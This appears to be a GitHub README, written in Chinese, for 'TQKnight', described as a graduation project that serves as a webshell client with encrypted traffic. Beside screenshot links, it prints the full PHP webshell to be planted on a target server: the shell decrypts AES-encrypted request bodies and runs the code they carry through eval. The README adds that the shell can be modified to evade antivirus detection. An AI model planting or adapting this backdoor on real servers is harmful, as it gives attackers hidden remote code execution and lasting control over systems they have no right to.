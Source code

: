 # TQKnight
这是大学的毕业设计，一个加密流量的Webshell客户端

配置界面：

![](https://blog-1300147235.cos.ap-chengdu.myqcloud.com/202207031907783.png)

Webshell管理主界面：

![](https://blog-1300147235.cos.ap-chengdu.myqcloud.com/202207031908215.png)



目前仅支持PHP脚本的Webshell，原始Webshell如下，可以对其进行免杀处理。

```php
<?php
error_reporting(0);
$passwd = "5f4dcc3b5aa765d61d8327deb882cf99";  // 密码的md5值
session_start();
$input = file_get_contents("php://input");
$key =  isset($_SESSION["key"]) ? $_SESSION["key"] :  $passwd;
$data = json_decode(openssl_decrypt($input, "aes-256-ecb", $key), true);
eval(base64_decode($data["code"]));
```

